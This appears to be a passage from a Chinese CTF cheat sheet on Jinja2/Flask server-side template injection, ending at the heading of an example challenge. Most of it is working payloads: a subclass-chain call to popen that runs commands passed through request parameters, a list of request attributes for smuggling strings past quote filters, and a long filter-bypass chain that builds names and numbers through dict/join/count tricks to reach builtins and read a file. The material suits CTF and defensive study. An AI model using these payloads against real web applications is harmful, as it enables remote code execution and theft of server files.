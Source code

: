 ```python
# {% %} 作用类似 {{}}，只不过要利用print回显
{% print(''.__class__) %}
```

### 过滤 ' "

```python
# request.values.x1 就是将接受的x1作为字符串解析
().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[request.values.x1](request.values.x2).read()	# x1 = popen x2 = ls
```



```
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)
```

### 绕过数字以及关键字==

```python
# count 可用 length 替换
# set coun=(cc~cccc)|int 拼接为字符 24 然后转为 int
{% set c=dict(e=a)|join|count%}
{% set cc=dict(ee=a)|join|count%}
{% set ccc=dict(eee=a)|join|count%}
{% set cccc=dict(eeee=a)|join|count%}
{% set ccccc=dict(eeeee=a)|join|count%}
{% set cccccc=dict(eeeeee=a)|join|count%}
{% set ccccccc=dict(eeeeeee=a)|join|count%}
{% set cccccccc=dict(eeeeeeee=a)|join|count%}
{% set ccccccccc=dict(eeeeeeeee=a)|join|count%}
{% set cccccccccc=dict(eeeeeeeeee=a)|join|count%}
{% set coun=(cc~cccc)|int%} 
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set file=chr((cccc~ccccccc)|int)%2bchr((cccccccccc~cc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccc~ccccccc)|int)%2bchr((cccccccccc~ccc)|int)%}
{%print(x.open(file).read())%}
```

## 例题

### [CISCN 2019华东南]Double Secret

